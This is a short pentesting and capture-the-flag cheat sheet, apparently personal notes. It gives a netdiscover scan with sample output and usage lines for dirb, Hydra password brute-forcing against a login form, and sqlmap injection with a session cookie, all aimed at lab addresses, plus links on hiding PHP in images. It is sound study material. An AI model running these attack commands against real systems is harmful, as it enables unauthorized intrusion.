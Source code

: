 # Pentesting / Capture the Flag

## Links

* [A Penetration Tester’s Guide to Postgres](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Code injection – a simple PHP virus carried in a JPEG image](http://php.webtutor.pl/en/2011/05/13/php-code-injection-a-simple-virus-written-in-php-and-carried-in-a-jpeg-image/)
* [Injecting Malicious PHP In To An Image File : Injection And Execution](http://techyzilla.blogspot.ca/2012/07/injecting-malicious-php-in-to-an-image-file.html)

## Useful Commands

### Searching a range of IP Address

```
root@kali:~# netdiscover -i eth2 -r 192.168.0.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.0.1     f8:1a:67:5a:fe:24      1      60  TP-LINK TECHNOLOGIES CO.,LTD
 192.168.0.100   a8:60:b6:3a:56:ce      2     120  Apple, Inc.
 192.168.0.101   e0:3f:49:14:a9:0d      1      60  Unknown vendor
```

## Useful Tools

### DIRB

Searches all the directory contents on a website

#### Usage

```shell
dirb http://192.168.0.104/ /usr/share/wordlists/dirb/big.txt
```

#### Resources

* [http://tools.kali.org/web-applications/dirb](http://tools.kali.org/web-applications/dirb)
* [https://github.com/seifreed/dirb](https://github.com/seifreed/dirb)

### gobuster

Directory/file & DNS busting tool written in Go.

#### Resources

* [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)

### Hydra

Exploiting Username and Password forms.

#### Usage

```shell
hydra 192.168.0.104 http-post-form '/imfadministrator/index.php:user=^USER^&pass=^PASS^:Invalid password' -L /root/usernames.txt -P /usr/share/wordlists/metasploit/password.lst -vV -t 10 -w 30 -o hydra-http-post-attack.txt
```

#### Resources

* [http://tools.kali.org/password-attacks/hydra/](http://tools.kali.org/password-attacks/hydra/)
* [https://www.blackmoreops.com/2015/12/23/crack-passwords-in-kali-linux-with-hydra/](https://www.blackmoreops.com/2015/12/23/crack-passwords-in-kali-linux-with-hydra/)
* [http://insidetrust.blogspot.ca/2011/08/using-hydra-to-dictionary-attack-web.html](http://insidetrust.blogspot.ca/2011/08/using-hydra-to-dictionary-attack-web.html)

### sqlmap

Used for doing SQL injection stuff.

#### Usage

When having to log into an PHPSESSIONID auth:

```shell
sqlmap -u http://192.168.0.104/imfadministrator/cms.php?pagename=upload --banner --cookie="PHPSESSID=m0i2uapvsqlklug2tpe2a8cis2; security=low" -f
```




